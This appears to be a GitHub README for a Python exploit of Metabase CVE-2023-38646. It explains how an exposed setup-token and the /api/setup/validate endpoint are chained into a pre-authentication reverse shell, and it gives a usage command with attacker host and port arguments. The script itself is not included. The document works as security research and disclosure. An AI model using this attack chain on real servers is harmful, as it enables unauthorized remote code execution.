 # CVE-2023-38646

This script creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8). It is developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How it works:
A token called "setup-token" is used to allow users to setup Metabase. However, for vulnerable versions of Metabase this token is not removed after setup.
This token is accessible to unauthenticated users under "/api/session/properties" - however the script is able to automatically retrieve the token.

As part of the setup process, an endpoint exists at /api/setup/validate which takes in a JDBC URI as a part of the POST request and then validates the connection before allowing you to complete the setup. However, this is also not disabled after inital setup and can be used with the set-up token.

Further, Assetnote found a 0day SQL injection vulnerability which allows a reverse shell to be spawned.

For more detailed information, please see the [full article](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How to use this script:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
  -h, --help     show this help message and exit
  --url URL      URL of the login page
  --lhost LHOST  Your attacker machine IP
  --lport LPORT  Your attacker machine listening port

Example:
![Example Screenshot](Example%20Screenshot.png)

# Disclaimer
This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.

# Acknowledgements:
This script was developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).
Inspiration was also taken from [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646) by [Pyr0sec](https://github.com/Pyr0sec).
